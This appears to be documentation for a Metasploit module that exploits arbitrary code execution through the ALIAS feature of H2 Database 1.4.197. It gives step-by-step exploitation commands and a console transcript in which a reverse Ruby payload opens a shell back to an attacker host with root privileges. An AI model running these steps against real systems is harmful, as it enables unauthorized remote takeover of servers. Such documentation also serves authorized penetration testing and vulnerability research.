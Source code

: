 ## Vulnerable Application

This module exploits an arbitrary code execution vulnerability in H2 Database version 1.4.197 using the ALIAS functionality. The H2 Database is used in Datomic before 0.9.5697 and other products and a copy of the vulnerable application can be downloaded from [https://www.exploit-db.com](https://www.exploit-db.com/apps/af9c1b47ddd7f3c58aaf189e25f3b714-h2-2017-06-10.zip).

## Verification Steps

Example steps in this format:

1. Install the application
1. Start msfconsole
1. Do: ```use exploit/multi/http/h2_alias```
1. Do: ```set RHOST [target host]```
1. Do: ```exploit```
1. You should get a shell.

## Scenarios

Example usage against a Linux x64 bit target running H2 Database 1.4.197.

```
msf > use exploit/multi/http/h2_alias
msf exploit(multi/http/h2_alias) > set RHOST 192.168.216.23
RHOST => 192.168.216.23
msf exploit(multi/http/h2_alias) > set PAYLOAD cmd/unix/reverse_ruby
PAYLOAD => cmd/unix/reverse_ruby
msf exploit(multi/http/h2_alias) > set LHOST 192.168.216.25 
LHOST => 192.168.216.25
msf exploit(multi/http/h2_alias) > exploit 

[*] Started reverse TCP handler on 192.168.216.25:4444 
[*] Command shell session 1 opened (192.168.216.25:4444 -> 192.168.216.23:45390) at 2018-07-31 14:38:21 -0400
id

uid=(root) gid=0(root) groups=0(root)
```